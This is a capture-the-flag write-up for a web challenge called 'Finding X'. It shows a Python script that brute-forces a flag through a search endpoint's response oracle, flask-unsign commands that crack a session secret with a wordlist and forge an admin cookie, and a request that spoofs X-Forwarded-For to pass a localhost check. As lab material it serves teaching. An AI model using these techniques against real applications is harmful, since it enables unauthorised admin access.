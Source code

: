 # Finding X - Write-up



## Part 1 
### Vulnerability Analysis
The application contains an API endpoint `/api/search` that processes search queries 
so we just had to bruteforce each letter of the flag to check if the employee existed or not

### Exploitation


The exploit script works by:
1. Testing each possible character in the flag character set
2. Using the application's response to determine if the character is correct
3. Building the flag one character at a time

```python
import requests
import string

url = "https://findingx.ctf.prgy.in/api/search"
flag = ""
characters = string.ascii_letters + string.digits + "{}_"

while True:
    found = False
    for c in characters:
        if c in ["'"]:  
            continue
        attempt = f"{flag}{c}"
        print(f"flag: {flag}, trying: {attempt}")
        burp0_json = {"search": attempt}
        res = requests.post(url, json=burp0_json)
        if "Employee exists." in res.json().get("message", ""):
            flag = attempt
            found = True
            break
    if not found:
        break

print("Final flag:", flag)
```
we get the first part of the flag 
```bash
p_ctf{i_h4t3_br97f0r63_
```


## Part 2 - Authentication Bypass
### Vulnerability Analysis
The second part of the flag is hidden behind an admin panel that requires:
1. A valid admin session
2. A request originating from localhost (127.0.0.1)
from the question it is hinted at XFF 

### Exploitation
The exploit involves three steps:

1. **Flask Session Cookie Cracking**
First, we need to crack the Flask session cookie secret:
```bash
flask-unsign --cookie 'eyJ1c2VybmFtZSI6Imd1ZXN0In0.Z6Wr_w.K5N6C2M4cr53s47SfKlsHzLo_BU' --wordlist rockyou.txt --unsign
```
This reveals the secret key: `ilovecookies`

2. **Forging Admin Cookie**
Using the discovered secret, we can forge an admin session cookie:
```bash
flask-unsign --sign --cookie "{'username': 'admin'}" --secret "ilovecookies"
```

3. **IP Spoofing**
The final step involves bypassing the localhost check by setting the X-Forwarded-For header to 127.0.0.1:

```python
import requests

headers = {
    "X-Forwarded-For": "127.0.0.1",
    "Cookie": "session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Z6YhWg.hJamGCuL91iB3p-J83mnq8wtVeU"
}

session = requests.Session()
response = session.get("https://findingx.ctf.prgy.in/admin", headers=headers)
print(response.text)
```

## Complete Flag
Combining both parts of the flag:
`p_ctf{i_h4t3_br97f0r63_b4d_4nd_i_c4n_n0t_l13}`

